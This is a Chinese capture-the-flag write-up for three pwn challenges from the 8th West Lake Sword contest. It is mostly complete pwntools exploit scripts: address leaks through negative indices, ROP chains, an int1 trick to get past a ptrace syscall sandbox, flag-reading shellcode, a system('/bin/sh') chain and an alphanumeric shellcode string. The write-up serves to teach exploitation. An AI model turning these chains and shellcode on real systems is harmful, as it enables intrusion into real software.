

# 第八届西湖论剑-网络攻防实战赛初赛-Pwn-解题思路

‍

第八届西湖论剑·中国杭州网络安全安全技能大赛-网络攻防实战赛初赛

‍

‍

## Pwn-babytrace

‍

patch 成这样，方便调试

​​

‍

* 调试脚本

```python
# imLZH1
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = '119.45.238.17:9999'
binary = './babytrace'
binary = './fix/babytrace'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)

context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

libc = context.binary.libc
elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
#brva 0x0D68
brva 0x000D3C
#continue
'''.format(**locals())

#io = rmote()
io = start([])
def edit(buf,idx,data):
    ru('choose one >')
    sl('1')
    ru(':')
    s(buf)
    ru('which one?')
    sl(str(idx))
    ru('set value?')
    sl(str(data))

def show(idx):
    ru('choose one >')
    sl('2')
    ru('which one?')
    sl(str(idx))

sleep(0.4)

gdb.attach(io.pid+1,gdbscript)

#pause()
show(-2)
ru('num[-2] = ')
libc_base = int(rl()) - libc.sym['_IO_2_1_stderr_']
```

‍

### 程序分析

‍

* 父进程通过监控和修改子进程的系统调用及其寄存器状态，实现了一个自定义的沙箱环境。

```c
struct user_regs_struct
{
  __int64 r15;
  __int64 r14;
  __int64 r13;
  __int64 r12;
  __int64 rbp;
  __int64 rbx;
  __int64 r11;
  __int64 r10;
  __int64 r9;
  __int64 r8;
  __int64 rax;
  __int64 rcx;
  __int64 rdx;
  __int64 rsi;
  __int64 rdi;
  __int64 orig_rax;
  __int64 rip;
  __int64 cs;
  __int64 eflags;
  __int64 rsp;
  __int64 ss;
  __int64 fs_base;
  __int64 gs_base;
  __int64 ds;
  __int64 es;
  __int64 fs;
  __int64 gs;
};

user_regs_struct v7;
......
do
  {
    ptrace(PTRACE_SYSCALL, (unsigned int)pid, 0LL, 0LL);
    if ( waitpid(pid, &stat_loc, 0x40000000) < 0 )
      error("waitpid error2");
    if ( (stat_loc & 0x7F) == 0 || (unsigned __int8)stat_loc == 0x7F && (stat_loc & 0xFF00) >> 8 == 11 )
      break;
    if ( ptrace(PTRACE_GETREGS, (unsigned int)pid, 0LL, &v7) < 0 )
      error("GETREGS error");
    if ( v7.orig_rax != 1 && v7.orig_rax != 231 && v7.orig_rax != 5 && v7.orig_rax != 60 )
    {
      if ( v7.orig_rax )
      {
        printf("bad syscall: %llu\n", v7.orig_rax);
        v7.orig_rax = 0xFFFFFFFFFFFFFFFFLL;
        if ( ptrace(PTRACE_SETREGS, (unsigned int)pid, 0LL, &v7) < 0 )
          error("SETREGS error");
      }
    }
    ptrace(PTRACE_SYSCALL, (unsigned int)pid, 0LL, 0LL);
    if ( waitpid(pid, &stat_loc, 0x40000000) < 0 )
      error("waitpid error3");
  }
  while ( (stat_loc & 0x7F) != 0 && ((unsigned __int8)stat_loc != 127 || (stat_loc & 0xFF00) >> 8 != 11) );
```

只允许一下系统调用号，否则替换成 `0xFFFFFFFFFFFFFFFFLL`​

```bash
#define __NR_read 0
#define __NR_write 1
#define __NR_fstat 5  # 32位情况下是 open
#define __NR_exit_group 231


# /usr/include/x86_64-linux-gnu/asm/unistd_64.h
```

‍

分析子进程

```c

size_t get_int(){
  char s[40]; // [rsp+0h] [rbp-30h] BYREF
  size_t canary; // [rsp+28h] [rbp-8h]

  canary = __readfsqword(0x28u);
  fgets(s, 32, stdin);
  return strtoll(s, 0LL, 10);
}

int menu(){
  return printf("choose one >");
}

void show(size_t *nums){
  size_t idx; // [rsp+18h] [rbp-8h]

  if ( show_count > 1 )
  {
    puts("permission denied!");
  }
  else
  {
    puts("which one?");
    idx = get_int();
    if ( idx > 2 )
      exit(1);
    printf("num[%lld] = %lld\n", idx, nums[idx]);
    ++show_count;
  }
}

void edit(size_t *nums){
  size_t idx; // [rsp+10h] [rbp-220h]
  char buf[520]; // [rsp+20h] [rbp-210h] BYREF
  size_t canary; // [rsp+228h] [rbp-8h]

  canary = __readfsqword(0x28u);
  if ( edit_count == 1 )
  {
    puts("recv:");
    read(0, buf, 0x200uLL);
    puts("which one?");
    idx = get_int();
    if ( idx > 2 )
      exit(1);
    puts("set value?");
    nums[idx] = get_int();
    puts("Set up for success!");
    edit_count = 0;
  }
  else
  {
    puts("permission denied!");
  }
}

void is_main(){
  int v0; // eax
  size_t nums[3]; // [rsp+10h] [rbp-20h] BYREF
  size_t canary; // [rsp+28h] [rbp-8h]

  canary = __readfsqword(0x28u);
  memset(nums, 0, sizeof(nums));
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      v0 = get_int();
      if ( v0 != 2 )
        break;
      show(nums);
    }
    if ( v0 == 3 )
      exit(1);
    if ( v0 == 1 )
      edit(nums);
    else
      puts("invild.");
  }
}
```

无论时 show 还是 edit 功能都限制不能大于2， 但是负数也可以用

### 漏洞利用

通过2  show 功能 可以泄露 libc 和 程序基地址，

然后用 edit 负向修改 edit 的返回地址为以下，就可以得到一个缓冲区溢出漏洞，后面就是ROP了

​​

```python
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = '119.45.238.17:9999'
binary = './babytrace'
binary = './fix/babytrace'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)

context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

libc = context.binary.libc
elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
#brva 0x0D68
brva 0x000D3C
#continue
'''.format(**locals())

#io = rmote()
io = start([])

def edit(buf,idx,data):
    ru('choose one >')
    sl('1')
    ru(':')
    s(buf)
    ru('which one?')
    sl(str(idx))
    ru('set value?')
    sl(str(data))

def show(idx):
    ru('choose one >')
    sl('2')
    ru('which one?')
    sl(str(idx))

sleep(0.4)

gdb.attach(io.pid+1,gdbscript)

#pause()
show(-2)
ru('num[-2] = ')
libc_base = int(rl()) - libc.sym['_IO_2_1_stderr_']

lss('libc_base')

show(-3)
ru('num[-3] = ')                                                                                                                                                                                                                                                                                                                                                       elf_base = int(rl()) - 3656

lss('libc_base')
lss('elf_base')


buf = flat({                                                                                                                                                                                                                                                                                                                                                               0x1F8:0x123456
},filler=b'\x00')

idx = -3
data = elf_base + 0x00C75 # read

edit(buf,idx,data)

libc.address = libc_base
libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rbx = libc_rop.find_gadget(['pop rbx','ret'])[0]
rcx = libc_rop.find_gadget(['pop rcx','ret'])[0]                                                                                                                                                                                                                                                                                                                       rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','ret'])[0]
syscall = libc_rop.find_gadget(['syscall','ret'])[0]


pay  = b'C' * 0x1d8
pay += p64(rdx) + p64(0x500) # 上面的ROP 不是很够用，所用再构造一个大的
pay += p64(libc.sym['read'])
s(pay)
pause()

pay  = b'C' * 0x1f0
pay += p64(0xbeefbeef)
s(pay)

itr()
```

‍

‍

### exploit

用 `int1`​ 或 `int3`​ 去中断,只要执行过 中断后， 后面执行的syscall 就没有父进程的限制了（可能时父进程停止了？）

```python
➜  babytrace ROPgadget --binary ./libc.so.6 |grep ": int1 ; ret"
0x00000000000c6d6e : int1 ; ret
```

‍

```python
# imLZH1
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = '119.45.238.17:9999'
binary = './babytrace'
#binary = './fix/babytrace'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)

context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

libc = context.binary.libc
elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
#brva 0x0D68
brva 0x000D3C
#continue
'''.format(**locals())

#io = rmote()
io = start([])

def edit(buf,idx,data):
    ru('choose one >')
    sl('1')
    ru(':')
    s(buf)
    ru('which one?')
    sl(str(idx))
    ru('set value?')
    sl(str(data))

def show(idx):
    ru('choose one >')
    sl('2')
    ru('which one?')
    sl(str(idx))

sleep(0.4)

#gdb.attach(io.pid+1,gdbscript)

#pause()
show(-2)
ru('num[-2] = ')
libc_base = int(rl()) - libc.sym['_IO_2_1_stderr_']

lss('libc_base')

show(-3)
ru('num[-3] = ')
elf_base = int(rl()) - 3656
elf.address = elf_base
lss('libc_base')
lss('elf_base')


buf = flat({
    0x1F8:0x123456
},filler=b'\x00')

idx = -3
data = elf_base + 0x00C75 # read

edit(buf,idx,data)

libc.address = libc_base
libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rbx = libc_rop.find_gadget(['pop rbx','ret'])[0]
rcx = libc_rop.find_gadget(['pop rcx','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','ret'])[0]
syscall = libc_rop.find_gadget(['syscall','ret'])[0]
int1_ret = libc_base + 0x00000000000c6d6e #: int1 ; ret


pay  = b'C' * 0x1d8
pay += p64(rdx) + p64(0x500)
pay += p64(libc.sym['read'])
s(pay)

bss = elf.bss() >> 0xC << 0xC

pause()
pay  = b'C' * 0x1f0
pay += p64(rax) + p64(0)
pay += p64(rdi) + p64(0)
pay += p64(rsi) + p64(bss)
pay += p64(rdx) + p64(0x300)
pay += p64(syscall)
pay += p64(int1_ret)
pay += p64(rax) + p64(0xa)
pay += p64(rdi) + p64(bss)
pay += p64(rsi) + p64(0x100)
pay += p64(rdx) + p64(7)
pay += p64(syscall)
pay += p64(bss)

s(pay)
pause()

sc  = asm(shellcraft.open('/flag'))
sc += asm(shellcraft.sendfile(1,'rax',0,0x50))
sl(sc)

itr()
```

‍

‍

​​

‍

### 参考链接

‍

```url
https://ctftime.org/writeup/20115
```

‍

## Pwn-Vpwn

‍

```python
# imLZH1
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = '139.155.126.78:27968'
binary = './Vpwn'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)

context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
#continue
'''.format(**locals())

#io = rmote()
io = start([])

def edit(idx,data):
    ru(b'Enter your choice: ')
    sl('1')
    ru(':')
    sl(str(idx))
    ru(':')
    sl(str(data))

def push(pay):
    ru(b'Enter your choice: ')
    sl('2')
    ru(b'Enter the value to push: ')
    sl(str(pay))

def pop():
    ru(b'Enter your choice: ')
    sl('3')

def show():
    ru(b'Enter your choice: ')
    sl('4')


push(0x41414141)
push(0x42424242)

push(0x42424242)
push(0x42424242)

push(0x42424242)
push(0x42424242)

push(20)
show()

ru('StackVector contents: ')
data = rl().decode().strip().split(' ')
print(data)

d1 = int(data[-1])
d2 = int(data[-2]) %0x100000000
libc_base = d1 << 0x20
libc_base += d2
libc_base -= 171408
lss('d1')
lss('d2')
lss('libc_base')
libc.address = libc_base
system = libc.sym['system']
bin_sh = next(libc.search(b'/bin/sh'))
pop_rdi = next(libc.search(asm('pop rdi;ret')))


pop()
pop()

push((pop_rdi+1) & 0xFFFFFFFF)
push((pop_rdi+1) >> 0x20)

push((pop_rdi) & 0xFFFFFFFF)
push((pop_rdi) >> 0x20)

push((bin_sh) & 0xFFFFFFFF)
push((bin_sh) >> 0x20)


push((system) & 0xFFFFFFFF)
#gdb.attach(io,gdbscript)
push((system) >> 0x20)
sl('5')
#push((pop_rdi+1) & 0xFFFFFFFF)

#show()
#edit(-1,0x45454545)

#pay = flat({
#},filler=b'\x00')

itr()
```

‍

## Pwn-Heaven's door

‍

​​

‍

* 懒得去写 xor 了，直接 字符shellcode 一把梭

```python
Rh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2E0T2I0Q030z3P3G1P3r123V2p01187l0B1k0R0r2H1k010r2n0w0A3i108N0R00060Z2r0o11092j7o0w0X0I0n110p0k0x3k3d14012O7o0D03
```

‍

```python
from pwn import *

context.arch='amd64'

sc  = asm(shellcraft.open('flag'))
sc += asm(shellcraft.mmap(0,0x50,7,2,3,0))
sc += asm(shellcraft.write(1,'rax',0x40))
open('shellcode','wb').write(sc)

# python3 $1 >shellcode
# python2 ./ALPHA3.py x64 ascii mixedcase rax --input="shellcode"
# python2 ./ALPHA3.py x64 ascii mixedcase rdx --input="shellcode"
```
